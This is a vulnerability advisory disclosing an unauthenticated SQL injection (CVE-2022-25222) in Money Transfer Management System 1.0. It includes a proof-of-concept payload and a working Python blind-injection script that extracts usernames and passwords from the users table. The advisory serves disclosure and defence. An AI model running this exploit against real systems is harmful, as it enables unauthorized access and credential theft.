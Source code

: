 ```yaml
---
slug: advisories/berry/
title: Money Transfer Management System 1.0 - Unauthenticated SQLi
authors: Oscar Uribe
writer: ouribe
codename: berry
product: Money Transfer Management System 1.0
date: 2022-03-15 12:00 COT
cveid: CVE-2022-25222
description: Money Transfer Management System 1.0 - Unauthenticated SQL Injection
keywords: Fluid Attacks, Security, Vulnerabilities, MTMS, SQL
banner: advisories-bg
advise: yes
template: advisory
---
```


## Summary

|                         |                                                                  |
|-------------------------|------------------------------------------------------------------|
| **Name**                | Money Transfer Management System - Unauthenticated SQL Injection |
| **Code name**           | [Berry](https://en.wikipedia.org/wiki/Chuck_Berry)               |
| **Product**             | Money Transfer Management System                                 |
| **Affected versions**   | Version 1.0                                                      |
| **State**               | Public                                                           |
| **Release date**        | 2022-03-15                                                       |

## Vulnerability

|                       |                                                                                 |
|-----------------------|---------------------------------------------------------------------------------|
| **Kind**              | SQL injection                                                                   |
| **Rule**              | [146. SQL injection](https://docs.fluidattacks.com/criteria/vulnerabilities/146)|
| **Remote**            | Yes                                                                             |
| **CVSSv3 Vector**     | CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N                                    |
| **CVSSv3 Base Score** | 7.5                                                                             |
| **Exploit available** | Yes                                                                             |
| **CVE ID(s)**         | [CVE-2022-25222](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-25222)                                                                                      |

## Description

Money Transfer Management System **Version 1.0** allows an unauthenticated
user to inject SQL queries in `admin/maintenance/manage_branch.php`
and `admin/maintenance/manage_fee.php` via the id parameter.

## Proof of Concept

Steps to reproduce

1. Go to `http://127.0.0.1/mtms/admin/maintenance/manage_branch.php`

2. Insert the following query inside the id parameter.

```sql
?id=1' and 1=1 -- -
```

3. The server response changes if the second part of the query is true or false.
   To automate the process use the below exploit.

System Information

* Version: Money Transfer Management System version 1.0.
* Operating System: Linux.
* Web Server: Apache
* PHP Version: 7.4
* Database and version: MySQL

## Exploit

```python
import requests
import urllib.parse

dictionary = """0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ !"#$%&\'()*+,-./:;<=>?@[\\]^_`{|}~"""

def sqli_bool(base_url,query):


    url = "?id=1' and %s -- -" % query

    #proxies = {'http':'http://127.0.0.1:8080','https':'https://127.0.0.1:8080'}
    #r = requests.get(base_url+url, proxies=proxies)
    r = requests.get(base_url+url)

    if len(r.text) > 2700:
        return True

    else:
        return False


def get_length(url, query):

    for i in range(0,200):
        current_query = "(length((%s))=%s)"%(query,str(i))
        current_query = current_query=urllib.parse.quote(current_query)
        if sqli_bool(url,current_query):
            break

    if i !=199:
        return i
    else:
        return -1


def make_query(url,query):

    # Get length
    length = get_length(url,query)

    print("[*] Getting output length:")
    if length == -1:
        print("Error getting query length")
        return 0
    print("[+] Output Lenght: " + str(length))

    current_result = ""

    print()
    print("[*] Getting output: ")

    for pos in range(length+1):
        for char in dictionary:

            current_query = '(substr((%s),%s,1)="%s")' %(query,str(pos),requests.utils.quote(char))
            if sqli_bool(url,current_query):
                current_result += char
                print(current_result, end='\r')
                break

    print("[+] Found: " + " " * 100)
    print(current_result)


url = "http://127.0.0.1/mtms/admin/maintenance/manage_branch.php"

# must be only 1 row
# use limit and offset to iterate

# CHANGE THIS
query = "select concat(username,':', password) as t1 from users limit 1"

make_query(url,query)
```

## Mitigation

By 2022-03-15 there is not a patch resolving the issue.

## Credits

The vulnerability was discovered by [Oscar
Uribe](https://co.linkedin.com/in/oscar-uribe-londo%C3%B1o-0b6534155) from the Offensive
Team of  `Fluid Attacks`.

## References

|                     |                                                                     |
|---------------------|---------------------------------------------------------------------|
| **Vendor page**     | <https://www.sourcecodester.com/php/15015/money-transfer-management-system-send-money-businesses-php-free-source-code.html>           |

## Timeline

* 2022-02-15: Vulnerability discovered.

* 2022-02-15: Vendor contacted.

* 2022-03-15: Public Disclosure.
